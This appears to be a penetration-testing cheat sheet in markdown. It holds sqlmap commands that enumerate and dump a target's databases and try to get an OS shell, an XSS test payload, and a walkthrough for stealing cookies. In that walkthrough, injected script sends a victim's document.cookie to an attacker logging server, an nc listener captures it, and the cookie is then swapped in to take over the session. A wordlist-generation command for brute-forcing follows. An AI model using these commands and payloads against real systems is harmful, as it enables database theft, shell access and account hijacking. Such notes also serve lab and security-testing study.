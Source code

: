 ### sqlmap

determine the databases:
```bash
sqlmap -u http://10.10.10.15/?id=4 --dbs
```

determine the tables:
```bash
sqlmap -u http://10.10.10.15/?id=4 -D dbname --tables
```

dump a table's data:
```bash
sqlmap -u http://10.10.10.15/?id=4 -D dbname -T table --dump
```

try to get os-shell:
```bash
sqlmap -u http://10.10.10.15/?id=4 --os-shell
```

### xss

check example:
```javascript
<script>alert("hack :)")</script>
```

#### hijack cookie through xss
there are four components as follows:
- attacker client pc
- attacker logging server
- vulnerable server
- victim client pc


1) attacker: first finds a vulnerable server and its breach point.

2) attacker: enter the following snippet in order to hijack the cookie kepts by victim client pc (p.s.: the ip address, 192.168.99.102, belongs to attacker logging server in this example):
```javascript
<script>var i = new Image();i.src="http://192.168.99.102/log.php?q="+document.cookie;</script>
```

3) attacker: log into attacker logging server (P.S.: it is 192.168.99.102 in this example), and execute the following command:
```bash
nc -vv -k -l -p 80
```

4) attacker: when victim client pc browses the vulnerable server, check the output of the command above.

5) attacker: after obtaining the victim's cookie, utilize a firefox's add-on called Cookie Quick Manager to change to the victim's cookie in an effort to hijack the victim's privilege.


### bruteforce (hydra, john, hashcat)
wordlist generation
```bash
cewl example.com -m 3 -w wordlist.txt
```
